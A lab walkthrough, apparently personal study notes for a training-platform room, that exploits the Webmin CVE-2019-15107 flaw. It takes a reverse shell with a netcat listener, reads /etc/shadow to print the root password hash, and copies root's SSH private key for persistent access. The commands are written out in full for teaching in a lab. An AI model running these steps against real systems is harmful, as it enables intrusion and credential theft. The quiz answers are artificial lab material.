 In the previous task we found a vulnerable service[[1]](https://sensorstechforum.com/cve-2019-15107-webmin/)[[2]](https://www.webmin.com/exploit.html) running on the target which will give us the ability to execute commands on the target.

The next step would usually be to find an exploit for this vulnerability. There are often exploits available online for known vulnerabilities (and we will cover searching for these in an upcoming task!), however, in this instance, an exploit is provided [here](https://github.com/MuirlandOracle/CVE-2019-15107).

---

Start by cloning the repository. This can be done with the following command:

`git clone https://github.com/MuirlandOracle/CVE-2019-15107`  

This creates a local copy of the exploit on our attacking machine. Navigate into the folder then install the required Python libraries:

`cd CVE-2019-15107 && pip3 install -r requirements.txt`  

If this doesn't work, you may need to install pip before downloading the libraries. This can be done with:  
`sudo apt install python3-pip`  

The script should already be executable, but if not, add the executable bit (`chmod +x ./CVE-2019-15107.py`).

Never run an unknown script from the internet! Read through the code and see if you can get an idea of what it's doing. (Don't worry if you aren't familiar with Python -- in this case the exploit was coded by the author of this content and is being run in a lab environment, so you can infer that it isn't malicious. It is, however, good practice to read through scripts before running them).  

Once you're satisfied that the script will do what it says it will, run the exploit against the target!

`./CVE-2019-15107.py TARGET_IP`

![[Exploitation-20241127151137527.webp]]


[1] [https://sensorstechforum.com/cve-2019-15107-webmin/](https://sensorstechforum.com/cve-2019-15107-webmin/)  
[2] [https://www.webmin.com/exploit.html](https://www.webmin.com/exploit.html)

Run the following command to get the user.
```
# whoami
```

![[Exploitation-20241127151941324.webp]]

> [!Success]
>We won't need to escalate privileges here, so we can move on to the next step in the exploitation process. Before we do though: nice though this pseudoshell is, it's not a full reverse shell. Get a reverse shell from the target. You can either do this manually, or by typing `shell` into the pseudoshell and following the instructions given.

> [!question]
>Which user was the server running as?
>`root'
## Shell

- Type `shell` and introduce the ATTACKING MACHINE IP and a port.


![[Exploitation-20241129143642892.webp]]

- Open a `netcat` connection on the #Attacking_Machine .

```
$ nc -lnvp <port>
```

You'll have a reverse shell.


## Stabilize the reverse shell

Stabilizing a **reverse shell** is crucial for maintaining a reliable connection and improving usability.

**Optional:** Stabilise the reverse shell. There are several techniques for doing this detailed [here](https://tryhackme.com/room/introtoshells).

```
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
$ export TERM=xterm

```


## root user's password hash

Run the following command on the reverse shell:

```
# cat /etc/shadow
```

![[Exploitation-20241129144943322.webp]]

### **Hash Components**

1. **Hashing Algorithm**:  
    `$6$` signifies the use of **SHA-512** hashing.
    
2. **Salt**:  
    `i9vT8tk3SoXXxK2P` is the salt used in this hash. It randomizes the hash computation to ensure uniqueness, even if two users have the same password.
    
3. **Hash Value**:  
    `HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1` is the actual hash of the password combined with the salt.
    
4. **Remaining Fields**:  
    The `::0:99999:7:::` part relates to password aging and policy settings:
    
    - `0`: Minimum number of days before the password can be changed.
    - `99999`: Maximum number of days the password is valid.
    - `7`: Warning days before the password expires.
    - `:::`: Reserved fields, typically empty.


> [!question]
>Now for a little post-exploitation!What is the root user's password hash?
>`$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1`


## Consistent access to the root user account

You won't be able to crack the root password hash, but you might be able to find a certain file that will give you consistent access to the root user account through one of the other services on the box.

One of the services on the machine is SSH.

The **SSH (Secure Shell) service** is a network protocol that allows secure remote login and command execution over an encrypted connection. It is widely used to manage Linux/Unix systems remotely.

### **Key Features of SSH**

1. **Encryption**: All data transmitted between the client and server is encrypted.
2. **Authentication**:
    - Password-based authentication.
    - Key-based authentication using SSH keys.
3. **Port Forwarding**: Securely forward ports over an SSH connection.
4. **File Transfer**: Tools like `scp` and `sftp` are built on SSH for secure file transfer.
5. **Tunneling**: Encrypt network traffic for other applications (e.g., SOCKS proxy).

### **SSH Key Files Overview**

When you generate an SSH key pair, two files are created:

1. `id_rsa`: The private key (keep this secure and never share it).
2. `id_rsa.pub`: The public key (this can be shared and placed on the remote server).

These files are usually stored in the `~/.ssh/` directory on your Linux machine.

> [!question]
>What is the full path to this file?
>`/root/.ssh/id_rsa`

Download the key (copying and pasting it to a file on your own Attacking Machine works), then use the command `chmod 600 KEY_NAME` (substituting in the name of the key) to obtain persistent access to the box.  

We have everything we need for now. Let's move on to the next section: Pivoting!

**Next section:** [[What is Pivoting?]]
